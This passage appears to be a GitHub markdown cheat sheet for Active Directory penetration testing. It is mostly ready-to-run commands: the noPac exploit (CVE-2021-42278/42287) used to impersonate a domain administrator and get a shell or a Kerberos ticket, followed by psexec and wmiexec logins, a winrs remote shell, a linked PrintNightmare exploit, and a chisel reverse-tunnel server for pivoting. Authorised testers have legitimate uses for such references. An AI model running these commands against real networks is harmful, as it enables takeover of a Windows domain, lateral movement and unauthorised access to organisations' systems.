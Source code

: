 - [sAMAccountName spoofing (NoPac) CVE-2021-42278 & CVE-2021-42287](https://github.com/ShutdownRepo/The-Hacker-Recipes/blob/master/ad/movement/kerberos/samaccountname-spoofing.md)

```
git clone https://github.com/Ridter/noPac.git
```

```shell
sudo python3 scanner.py <domain>/<username>:<password> -dc-ip <domain controller> -use-ldap
```

method1 interactive shell

```shell
# Use the full path to get files
sudo python3 noPac.py <domain>/<username>:<password> -dc-ip <domain controller> -dc-host <hostname> -shell --impersonate administrator -use-ldap
```

method2 using TGT_ccache_file

```shell
# specify the new username and password with administrator permission
sudo python3 noPac.py <domain>/<username>:<password> -dc-ip <domain controller> -dc-host <hostname> --impersonate administrator -use-ldap -target-name 'admin01' -new-pass 'Welcome123@'
# using cache file
export KRB5CCNAME=<TGT_ccache_file>
# showing Kerberos credentials cache
klist
# login method1
python3 psexec.py -k -no-pass <target>
# login method2
wmiexec.py -k -no-pass <target ip or FQDN> 
```

- [PrintNightmare](https://github.com/nemo-wq/PrintNightmare-CVE-2021-34527)

### :open_file_folder: Remote Tools

[![Windows](https://badgen.net/badge/icon/windows?icon=windows&label)](https://microsoft.com/windows/)

[winrs](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/winrs)

```cmd
winrs -R:<host> -u:<username> -p:<password> cmd
```

### :open_file_folder: Pivoting with chisel & proxychains

[reference](https://www.youtube.com/watch?v=dIqoULXmhXg&t=714s)

attacker

```shell
# ./chisel server -p 80 --reverse -v
./chisel server -p <attacker port> --reverse -v
```

